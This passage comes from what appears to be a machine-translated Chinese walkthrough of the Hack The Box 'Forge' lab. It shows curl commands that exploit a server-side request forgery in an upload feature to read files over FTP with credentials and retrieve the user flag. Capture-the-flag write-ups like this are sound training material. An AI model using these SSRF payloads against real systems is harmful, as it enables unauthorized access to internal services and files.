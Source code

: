 下面是我们使用 Curl 的方法:

```
┌──(root💀kali)-[~/htb/forge]
└─# curl -s -d 'url=http://ADMIN.FORGE.HTB/upload?u=ftp://<HIDDEN>@FORGE.HTB&remote=1' -X POST http://forge.htb/upload
```

由此我们使用-X 给出上传页面的 URL，然后使用-d 发送我们想要发布的数据。这里我给了它 FTP 证书。

反应看起来不错:

```
<center>
    <strong>File uploaded successfully to the following url:</strong>
    </center>
    </h1>
    <h1>
        <center>
            <strong><a href="http://forge.htb/uploads/lmlmHMB1xbKc89Cg8jJm">http://forge.htb/uploads/lmlmHMB1xbKc89Cg8jJm</strong>
        </center>
```

我们可以看到用户主文件夹的内容:

```
┌──(root💀kali)-[~/htb/forge]
└─# curl http://forge.htb/uploads/lmlmHMB1xbKc89Cg8jJm                                                                                 
drwxr-xr-x    3 1000     1000         4096 Aug 04 19:23 snap
-rw-r-----    1 0        1000           33 Oct 22 04:54 user.txt
```

# 卷曲计数

我们可以通过将从 curl 返回的文件名传递给 curl，剪切出我们想要的部分，从而使这变得更容易:

```
┌──(root💀kali)-[~/htb/forge]
└─# curl `curl -s -d 'url=http://ADMIN.FORGE.HTB/upload?u=ftp://<HIDDEN>@ADMIN.FORGE.HTB&remote=1' -X POST http://forge.htb/upload | grep uploads | cut -d '"' -f 2` 
drwxr-xr-x    3 1000     1000         4096 Aug 04 19:23 snap
-rw-r-----    1 0        1000           33 Oct 22 04:54 user.txt
```

现在我们可以更容易地与它互动。让我们获取用户标志:

```
┌──(root💀kali)-[~/htb/forge]
└─# curl `curl -s -d 'url=http://ADMIN.FORGE.HTB/upload?u=ftp://<HIDDEN>@ADMIN.FORGE.HTB/user.txt&remote=1' -X POST http://forge.htb/upload | grep uploads | cut -d '"' -f 2`
<HIDDEN>
```

# 数据泄漏
